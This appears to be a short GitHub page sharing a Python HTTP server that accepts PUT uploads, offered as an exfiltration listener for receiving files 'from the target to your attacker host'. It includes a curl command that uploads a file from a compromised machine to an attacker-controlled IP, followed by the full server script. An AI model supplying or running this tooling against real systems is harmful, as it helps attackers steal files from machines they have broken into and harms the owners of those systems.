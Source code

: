 ``Note: I did not write code, I just found it and saved it.``

Python modules ```http.server``` and ```uploadserver``` appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

```bash
Linux: curl --upload-file <filename> http://<ip>:8000/
```

```python
#!/usr/bin/python
import http.server
import os
import logging

try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """
    SimpleHTTPServer with added bonus of:

    - handle PUT requests
    - log headers in GET request
    """
    def do_GET(self):
        server.SimpleHTTPRequestHandler.do_GET(self)
        logging.warning(self.headers)

    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```
